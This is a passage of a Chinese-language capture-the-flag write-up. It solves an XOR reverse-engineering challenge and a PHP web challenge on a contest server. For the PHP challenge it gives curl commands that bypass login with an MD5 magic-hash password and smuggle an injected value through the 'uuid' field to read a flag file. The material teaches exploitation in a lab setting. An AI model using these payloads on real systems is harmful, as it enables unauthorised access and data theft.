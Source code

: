 所以再对 B 关于 A 做一次异或就可以得到 flag 了。

## encrypt_level2

使用 IDA 反汇编得到伪代码，有两种求解方法：

- 第一种是根据 main 函数中的语句一行行推测意图（要注意这是经过编译器优化的代码，所以可能循环被展开，并且最后部分针对寄存器做了特别优化）。

- 第二种是发现有一个没有 xref 的 loop0 函数。

```c
void __fastcall loop0(int i)
{
  int v1; // esi
  char v2; // cl

  v1 = i ^ seed[i];
  v2 = v1 ^ i ^ flag[i];
  seed[i + 1] ^= v1;
  flag[i] = v2;
}
```

整理一下，并且写成循环

```c
for(int i=0;i<16;++i){
    int v1 = i ^ seed[i];
    seed[i + 1] ^= v1;
    flag[i] = seed[i] ^ flag[i];
}
```

然后把上述代码的 L4 改写成 `flag[i] = enc[i] ^ seed[i];` 就可以解密 flag 了。

## What is $? - flag1 & 2

审计代码发现对 `action` 字段的检查并不严谨。同时对于 `md5` 的比较存在漏洞。

构造 POST 语句和祖传的密码字段，使用 curl 发送并且存储 cookie：

```bash
curl --data "action=login&cb_user=admin&cb_pass=QNKCDZO&cb_salt=s878926199" http://nc.thuctf.redbud.info:31612/code.php?action=fuck -c cookie.txt
```

进一步观察发现 `uuid` 字段连字符右侧的部分没有合法性检查，同时发现 `autoload` 和 `lib\Flag::FLAG1` 可供利用。

```bash
curl --data "item[name]=Name&item[uuid]=12345678-','lib/flag.php')##########&item[content]=hackeeeeeeeeeeeeeeer" http://nc.thuctf.redbud.info:31612/code.php?action=save_item -b cookie.txt
```

一次性取出 flag1 和 flag2 。

## PyChall - flag1
